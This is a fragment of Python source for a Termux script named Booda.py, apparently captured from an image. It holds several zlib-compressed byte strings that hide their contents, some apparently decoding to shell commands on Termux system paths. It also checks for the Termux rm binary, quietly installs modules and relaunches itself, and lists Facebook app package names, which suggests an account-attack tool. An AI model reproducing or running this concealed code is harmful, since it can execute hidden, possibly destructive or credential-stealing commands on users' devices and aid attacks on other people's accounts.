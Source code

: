 sz4 = zlib.decompress(b'x\x9c%\xca\xcb\x11\xc20\x0c\x05\xc0V\xdc@\xfc\x08Gj\xa0\t\xc7\x91\x13\xcf\xf8\xc3HO@\xf90p\xd9\xd3f\xd7\x16\x96{8\xc9\x87\xdd\x00M\xafxT\x9e\xbe\xb9\x89\xe69(\x831\xcf\x8eR\xf6g[\xd7\xeb\x05\x14#z\xaa\x03\xda\xc32\x03\xf6\xc4\xf4\xe7\x1b#E\xbb\xbfQj\x13\x83\x9bb\xfb\xcd\x0f\xf0\xab&#')

sz5 = zlib.decompress(b'x\x9cK\xce\xc8\xcdOQ077W\xd0OI,I\x84\x10\xc9\xf9\xb9z%\xa9E\xb9\xa5\x15\xfai\x999\xa9\xc5\xfa\xa5\xc5E\xfaI\x99y\xfaE\xb9\x00\x90\xf4\x11\x05')

sz6 = zlib.decompress(b'x\x9cK\xce\xc8\xcdOQ077W\xd0OI,I\x84\x10\xc9\xf9\xb9z%\xa9E\xb9\xa5\x15\xfai\x999\xa9\xc5\xfa\xa5\xc5E\xfaI\x99y\xfa\xb9e\x00\x90\xf3\x11\t')

sz7 = zlib.decompress(b'x\x9c\x1d\xca[\x0e@0\x10\x05\xd0\x15\xe9%V4j\xd0\xb4\xd5\x9aG\xc2\xee\x89\x9f\xf3u\xb0\x92\x11~b\xab\xc1X\xaa\xdf\xd8Ra\x85\xab\xa0\xa4\x05\xfd\xb1\xa3\x9ds\x98Fh2\x1e:\xc5L\xfb\x17\x84/g5\xc5\x0b\x8bO\x19\xc2')    

#--checking if file is not avalible

if not os.path.exists("/data/data/com.termux/files/usr/bin/rm"):

        pass

        exit("Error in termux modules ")

try:

        import os,requests,json,time,re,random,sys,uuid,string,subprocess

        from string import *

        from concurrent.futures import ThreadPoolExecutor as tred

except ModuleNotFoundError:

        print('\n Installing missing modules ...')

        os.system('pip install requests futures==2 > /dev/null')

        os.system('python Booda.py')

        

        

fbks=('com.facebook.adsmanager','com.facebook.lite','com.facebook.orca','com.facebook.katana','com.facebook.mlite')
